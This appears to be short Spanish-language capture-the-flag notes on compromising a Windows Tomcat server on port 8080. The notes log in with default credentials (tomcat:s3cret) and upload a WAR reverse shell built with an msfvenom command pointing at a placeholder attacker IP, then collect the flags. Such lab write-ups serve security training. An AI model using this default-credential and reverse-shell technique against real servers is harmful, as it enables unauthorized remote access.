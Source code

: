 
Windows
Port: 8080

- Vamos a ver su pagina web.
- Tenemos un Tomcat, por lo tanto existe un login para poder entrar.
![](../../Imagenes/Pasted%20image%2020250322165238.png)
- Sabemos que por lo general cuando no se configura bien, Tomcat viene con usuarios predefinidos, vamos a probar cada usuario
- Las credenciales eran, ==tomcat:s3cret==.
![](../../Imagenes/Pasted%20image%2020250317175955.png)
- Tenemos como subir un archivo para hacer una reverse.
- Vamos a hacer un payload con msfvenom.
```
msfvenom -p java/shell_reverse_tcp LHOST=(IP_ATACANTE) LPORT=443 -f war -o (NOMBRE)
```

![](../Imagenes/Pasted%20image%2020250317180229.png)

- Vamos a subirlo.

![](../Imagenes/Pasted%20image%2020250317180320.png)

- Ya esta subido, vamos a hacer la reverse y recordar hacer otra reverse estando dentro para tener una conexión mas estable.

![](../Imagenes/Pasted%20image%2020250317180523.png)

- Ya estamos dentro.
- Buscamos y encontraremos las flags de usuario y root.